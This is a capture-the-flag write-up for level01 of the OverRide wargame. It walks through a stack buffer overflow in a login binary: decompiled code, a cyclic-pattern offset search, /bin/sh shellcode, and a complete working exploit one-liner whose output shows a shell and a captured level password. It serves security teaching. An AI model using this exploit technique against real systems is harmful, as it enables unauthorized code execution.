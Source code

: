 So in this level, we can manipulate 2 variables using two fgets.

```c
fgets(&a_user_name, 0x100(256), stdin);
fgets(&var_54, 0x64(100), stdin);
```

Let's start with the first fgets; there is a protection that allows us to write only 256 characters in a_user_name.

```
level01@OverRide:~$ python -c 'print("A" * 256)' | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....
nope, incorrect username...
```

No exploitable vulnerability here; let's move on to the next one! To proceed to the next step, we need verify_user_name() to return 0.

```c
if (verify_user_name() != 0)
{
    puts("nope, incorrect username...\n");
    eax_1 = 1;
}
else
{
    puts("Enter Password: ");
    fgets(&var_54, 0x64, stdin);
	...
}

int32_t verify_user_name()
{
    int32_t __saved_esi;
    bool c = &__saved_esi < 0x10;
    bool z = &__saved_esi == 0x10;
    puts("verifying username....\n");
    return (strncmp(&a_user_name, "dat_wil", 7));
}
```

Now we know that to move on to the second fgets, we simply need to input 'dat_wil'.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
```

In the second fgets, we write to var_54, which has a size of 0x40 (64) bytes, but fgets allows us to write 0x64 (100) bytes into it GREAT!

```
Enter Password:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Now, we'll need to find the offset, grab a shellcode, and the address of a_user_name. The payload will look like print(data_wil + shellcode + '\n' + "A" * offset + addr a_user_name + 7). The + 7 is to jump directly to the shellcode and skip reading dat_wil.

offset:
For the offset, I use https://wiremask.eu/tools/buffer-overflow-pattern-generator to generate a pattern.

```
Breakpoint 1, 0x080484d5 in main ()
(gdb) c
Continuing.
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
0x37634136 = 80

shellcode:
I've retrieved the shellcode from a previous project.
```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

```
(gdb) info var
All defined variables:

Non-debugging symbols:
0x08048688  _fp_hw
0x0804868c  _IO_stdin_used
0x08048898  __FRAME_END__
0x08049f14  __CTOR_LIST__
0x08049f14  __init_array_end
0x08049f14  __init_array_start
0x08049f18  __CTOR_END__
0x08049f1c  __DTOR_LIST__
0x08049f20  __DTOR_END__
0x08049f24  __JCR_END__
0x08049f24  __JCR_LIST__
0x08049f28  _DYNAMIC
0x08049ff4  _GLOBAL_OFFSET_TABLE_
0x0804a014  __data_start
0x0804a014  data_start
0x0804a018  __dso_handle
0x0804a020  stdin@@GLIBC_2.0
0x0804a024  completed.6159
0x0804a028  dtor_idx.6161
0x0804a040  a_user_name <----------- adr
```

This gives us 
```
(python -c 'print("dat_wil\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80\n" + "A" * 80 + "\x47\xa0\x04\x08" )'; cat) | ./level01
```

```
level01@OverRide:~$ (python -c 'print("dat_wil\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80\n" + "A" * 80 + "\x47\xa0\x04\x08" )'; cat) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
